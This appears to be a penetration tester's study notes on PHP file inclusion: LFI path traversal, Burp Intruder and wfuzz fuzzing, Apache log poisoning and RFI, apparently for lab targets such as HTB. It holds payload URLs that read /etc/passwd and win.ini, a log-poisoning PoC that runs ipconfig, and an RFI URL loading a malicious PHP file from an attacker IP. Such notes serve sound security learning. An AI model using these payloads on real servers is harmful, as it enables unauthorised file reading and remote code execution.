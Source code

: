 ```yaml
---
description: A common vulnerability found in PHP web apps
---
```


# File Inclusion Vulnerabilities

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion" %}

## Local File Inclusion (LFI)

* The LFI attack is where an attacker can trick the web app into exposing or running files on the web server
* Attempt dot-dot-slash attack to ensure the attack is possible

Example: http://htb.local/?page=../../../../../../test.txt

### PoC

```
http://10.11.0.22/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig
```

### Bruteforcing LFI via directory

* Obtain a GET request in burp
* Send to Intruder
* Attack type set to Sniper

Example on where to place payload:

```
GET /admin/?|PAYLOADHERE|= HTTP/2
```

* Click the add button on the right side and make sure that the payload character is between the field where the two pipes are
* Go to payloads > Load > SecLists > Discovery > Web-Content > raft-small-words.txt
* Click start attack
* Make sure to order by the largest length as that will be what you need to focus on

### Fuzzing

* This section is for if you found something from bruteforcing for LFI

```
GET /admin/?debug=|fasfoaj|
```

* Place the payload characters in between the pipes
  * Remember, the pipes are the payload characters in burp, you need to manually add this
* Go to payloads > SecLists > LFI > LFI-jhaddix.txt
* Select start attack and organize by largest length again

Example of LFI:

```
http://10.10.10.1/admin/?debug=../../../../../windows/win.ini

http://10.10.10.1/admin/?debug=../../../../../etc/passwd
```

Wfuzz:

```
wfuzz -c -z file,/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt --hh <common number> <URL>
```

## Apache Log Poisoning

* If you can include an Apache log file through LFI, you can often inject PHP to the logs and execute that PHP using the LFI
* These logs can be stored in a variety of places
* Do more research on where these places can be

## LFI 2 RCE

{% embed url="https://www.rcesecurity.com/2017/08/from-lfi-to-rce-via-php-sessions/" %}

## Remote File Inclusion (RFI)

* Similar to an LFI but a remote file can be included and served to execute server-side code

Example:

http://htb.local/?page=http://\<kali_IP:8000>/maliciou_s\_file.php

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>
